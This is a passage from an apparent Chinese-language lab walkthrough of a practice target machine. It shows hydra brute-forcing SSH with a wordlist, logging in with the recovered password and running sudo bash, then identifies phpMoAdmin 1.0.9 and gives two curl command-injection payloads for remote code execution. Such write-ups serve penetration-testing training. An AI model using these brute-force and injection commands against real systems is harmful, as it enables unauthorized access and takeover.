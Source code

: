 可以看到成功枚举出admin账号，通过hydra对靶机的ssh进行爆破!


hydra -l admin -P /root/Desktop/rockyou.txt 192.168.253.135 ssh

[22][ssh] host: 192.168.253.135   login: admin   password: metallica

成功爆破了ssh，用户名为：admin 密码为：metallica

ssh admin@192.168.253.135
metallica

sudo bash



--------------------------------------------
--------------------------------------------
6、攻击路径三：PHPMOADMIN

phpMoAdmin 是一个用PHP 开发的在线MongoDB 管理工具，可用于创建、删除和修改数据库和索引，提供视图和数据搜索工具，提供数据库启动时间和内存的统计，支持JSON 格式数据的导入导出。


访问：http://192.168.1.104/robots.txt

访问/robots.txt，是一个mogondb的WebUI管理：

访问：
http://192.168.253.135/mongoadmin/

看到一个用于管理公开的Mongo实例的Web界面, 稍后点击几下，您将看到SSH帐户的凭据

查看版本号：
http://192.168.253.135/mongoadmin/index.php?action=getStats
----------------------
version

    mongo: 3.0.15 (64-bit)
    mongoPhpDriver: 1.6.16
    phpMoAdmin: 1.0.9
    php: 5.5.9-1ubuntu4.26 (64-bit)
    gitVersion: b8ff507269c382bc100fc52f75f48d54cd42ec3b

OpenSSLVersion: OpenSSL 1.0.1f 6 Jan 2014
sysInfo: Linux ip-10-71-195-23 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 BOOST_LIB_VERSION=1_49
versionArray
----------------------
是1.0.9，Google搜一搜，没想到一搜就是两个RCE的payload：

phpMoAdmin 1.0.9 exploit
https://www.exploit-db.com/exploits/36251


还发现两个rce：
curl http://192.168.253.135/mongoadmin/index.php -d "object=1;system('whoami');//"

curl 'http://192.168.253.135/mongoadmin/index.php?collection=admin&action=listRows&find=array();passthru("whoami");exit;'
